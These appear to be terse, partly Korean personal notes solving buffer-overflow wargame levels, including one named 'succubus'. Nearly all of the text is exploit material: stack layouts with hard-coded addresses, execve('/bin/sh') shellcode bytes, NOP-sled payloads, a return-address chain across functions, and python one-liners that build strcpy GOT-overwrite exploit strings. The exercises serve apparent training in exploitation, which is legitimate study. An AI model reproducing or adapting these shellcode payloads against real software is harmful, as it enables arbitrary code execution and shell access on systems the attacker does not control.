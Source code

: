 
STACK TOP(low address)
-----------
Trash					"\xa0\xfa\xff\xbf"	
stack + 4 (address to inst) 0xbffffaa4	"\xac\xfa\xff\xbf"		
nopslide(7) + SHellcode(25)		"\x90"*7+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
STACK address				"\xa0\xfa\xff\xbf"
leave RET address	    0x08048512	"\x17\x85\x04\x08"	
-----------
STACK BOTTOM(High address)

17. succubus: here to stay
	- 도->게->걸->윷->모
	- do의 retun address를 mo로 바꿔주기
	- arg 로 "/bin/bash" 주소 넣어주기

CHECK	0x08049a90		"\x90\x9a\x04\x08"

DO	0x080487ec		"\xec\x87\x04\x08"
GYE	0X080487bc		"\xbc\x87\x04\x08"
GUL	0x0804878c		"\x8c\x87\x04\x08"
YUT	0x0804875c		"\x5c\x87\x04\x08"
MO	0x08048724		"\x24\x87\x04\x08"
Trash				"AAAA"
"\bin\sh" loc 0xbffffaa8	"\xa8\xfa\xff\xbf"
"\bin\sh/x00"			"\x2f\x62\x69\x6e"
0x2f62696e			"\x2f\x2f\x73\x68"
0x2f736800

18. 

STRCPY GOT 0x08048410		"\x10\x84\x04\x08"
       PLT 0x400767b0

strcpy 로 ret 에 shellcode를 복붙

BUFFER + SFP 	"A"*44		
STR_ADR(GOT)	0x08048410	
		0x080486ba
 
Overwrote	"XXXX"
Arg1		"Overwrote" 주소 esp + 44 + 8   0xbffffa90	"\x90\xfa\xff\xbf"
arg2		SHELLCODE 주소의 주소 esp + 44 + 20  0xbffffa6c:	"\xac\xfa\xff\xbf"

shellcode with 환경변수 

r `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x10\x84\x04\x08" + "XXXX" +"\xac\xfa\xff\xbf"+ "\x90\xfa\xff\xbf"+ "\xac\xfa\xff\xbf" + "\x6c\xfa\xff\xbf"'`

`python -c 'print "\x90"*15 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xa4\xfa\xff\xbf" + "\x10\x84\x04\x08" + "XXXX" + "\xe0\xfa\xff\xbf" + "\xa4\xfa\xff\xbf" +"\xd8\xfa\xff\xbf"'`

strcpy 						"\x10\x84\x04\x08"
stack address 	esp = 0xbffffa9c		"\xa4\xfa\xff\xbf"
AAAA loc = "0xbffffae0"				"\xe0\xfa\xff\xbf"
shellcode address's address = 0xbffffad8	"\xd8\xfa\xff\xbf"
